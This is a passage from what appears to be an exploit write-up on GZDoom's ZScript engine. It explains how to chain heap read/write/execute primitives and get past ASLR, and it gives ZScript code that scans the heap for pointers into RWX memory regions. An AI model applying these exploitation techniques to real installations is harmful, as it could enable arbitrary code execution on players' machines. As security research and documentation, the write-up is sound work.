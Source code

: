 The presence of a function pointer also gives us **an arbitrary execute primitive**; that, however, is a little less straightforward, requiring the creation of a fake VMFunction to satify the virtual machine. As soon as a call to a ZScript function is introduced in the exploit code, that code is no longer JIT-compiled. Still works, but it becomes a bit more of a headache to debug and exploit. There might be a better way to do this part, but I didn't study the GZDoom internals well enough to know of it.

One thing to note: WeirdObject has inherited member variables, so the first member starts at offset 0x28.

## Exploit
So now, we have the following tools:
- Arbitrary read/write for a huge region of the heap
- Arbitrary read/write/execute going beyond the heap
- RWX regions

How do we chain them to make an exploit?

First, because ASLR's enabled, we need to identify where an RWX region is present. Any will do. The part of the heap available to the huge array contains addresses pointing to functions within an RWX region, but it also has addresses pointing to other regions; how do we discriminate? Recall that on Linux, ASLR has 28 bits of entropy (sometimes less!), meaning that although bits of the mask 0x7fffffe00000 in an address will be random, bits 0x0000001fffff will be static. So, with ASLR disabled, let's assume we have the following RWX regions:
```
[0x7ffff2f00000, 0x7ffff3000000)
[0x7ffff3900000, 0x7ffff3a00000)
[0x7ffff4300000, 0x7ffff4400000)
```
Then we can use the following ZScript code to print pointers to JIT-compiled ZScript functions within the RWX regions:
```
uint u32pBFA9000[1073741823];
uint u32RWX_L;
uint u32RWX_H;

for (i = 0; i < (1073741823 / 2); i += 2)
{
	u32RWX_L = u32pBFA9000[i];
	u32RWX_H = u32pBFA9000[i+1];

	if ((u32RWX_H & 0xffff8000) == 0)
	{
		if ((u32RWX_L & 0xffe00000) == 0xf2e00000)
		{
			Console.Printf("0x%x%08x", u32RWX_H, u32RWX_L);
		}
		if ((u32RWX_L & 0xffe00000) == 0xf3800000)
		{
			Console.Printf("0x%x%08x", u32RWX_H, u32RWX_L);
		}
		if ((u32RWX_L & 0xffe00000) == 0xf4200000)
		{
			Console.Printf("0x%x%08x", u32RWX_H, u32RWX_L);
		}
	}
}
```
Get the offsets by ANDing the printed results with 0x1fffff, and you can use these offsets to identify pointers to RWX regions. The more offsets you know, the greater the chances of the exploit succeeding.

